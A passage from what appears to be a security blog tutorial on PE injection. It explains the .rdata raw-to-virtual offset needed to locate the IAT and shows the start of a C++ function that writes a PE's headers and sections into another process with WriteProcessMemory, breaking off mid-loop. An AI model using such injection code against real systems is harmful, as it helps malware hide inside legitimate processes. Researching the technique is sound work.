 ![Section Mapping diff](assets/img/posts/20240124/SectionDiff.png)

Since the IAT is located in the `.rdata` section, if we retrieve it like we would have done when performing reflective loading, we won't be able to get it since there is an offset between our PE read from the disk and the PE that is loaded in memory. Therefore, in a first time we will modify slightly our function `copyPEinTargetProcess` to be able to retrieve the `.rdata` offset between the `PointerToRawData` and the `VirtualAddress`.

{% highlight C++ %}
BOOL copyPEinTargetProcess(HANDLE pHandle, PVOID& allocAddrOnTarget, LPVOID peToInjectContent, PIMAGE_NT_HEADERS64 peInjectNtHeaders, PIMAGE_SECTION_HEADER& peToInjectRelocSection, PDWORD offsetRdata)
{

    peInjectNtHeaders->OptionalHeader.ImageBase = (DWORD64)allocAddrOnTarget;
    _dbg("[+] Writing Header into target process\r\n");
    if (!WriteProcessMemory(pHandle, allocAddrOnTarget, peToInjectContent, peInjectNtHeaders->OptionalHeader.SizeOfHeaders, NULL))
    {
        _err("[-] ERROR: Cannot write headers inside the target process. ERROR Code: %x\r\n", GetLastError());
        return FALSE;
    }
    _dbg("\t[+] Headers written at : 0x%p\n", allocAddrOnTarget);

    _dbg("[+] Writing section into target process\r\n");


    for (int i = 0; i < peInjectNtHeaders->FileHeader.NumberOfSections; i++)
    {